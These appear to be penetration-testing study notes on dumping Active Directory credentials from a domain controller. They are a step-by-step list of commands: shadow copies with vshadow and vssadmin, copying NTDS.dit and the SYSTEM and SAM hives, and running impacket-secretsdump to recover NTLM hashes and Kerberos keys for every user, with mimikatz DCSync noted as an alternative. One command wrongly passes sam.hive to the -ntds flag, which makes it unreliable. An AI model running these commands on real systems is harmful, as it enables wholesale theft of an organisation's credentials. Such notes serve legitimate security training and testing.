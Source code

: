 	- As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we’ve obtained a copy of said database, we can extract every user credential offline on our local Kali machine.
	- Connect to DC as domain admin user
	- `PS> vshadow.exe -nw -p C:` → Get Shadow copy device name something like `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy` from output of this command
		- Alternative - vssadmin create shadow /for=C: (Pre-installed)
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy`
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy`
	- `PS>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit`
	- `PS> reg.exe save hklm\system c:\system.hive` → `system.hive` from Windows registry is password key for `ntds.dit` database
	- `Kali> impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL` → Get NTLM hashes and Kerberos keys for every AD user
![Screenshot of Shadow Copy 1](./images/shadow-1.png)
	- `Kali> impacket-secretsdump -ntds ntds.dit -system system.hive -history LOCAL`
		- `-history` shows along with current hashes, older hashes as well. Those are stored, so that repetition of setting same hash can be provided.
	- Alternative for this is that we can use mimikatz to dump password of every user using `DCSync attack`.
	- Alternative Method
		- Backup SAM and SYSTEM hashes
	        - `reg save hklm\system C:\system.hive`
            - `reg save hklm\sam C:\sam.hive`
        - Transfer system.hive and sam.hive to attacker’s machine
        - `impacket-secretsdump -ntds sam.hive -system system.hive LOCAL` → Get Administrator user hash
    - We can also execute command - `Get-ChildItem -Path C:\ -Include sam,system,ntds.dit -File -Recurse -ErrorAction SilentlyContinue` - to identify locations of these files.
#### Some Awesome References
- [PayloadsAllTheThings AD](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/)
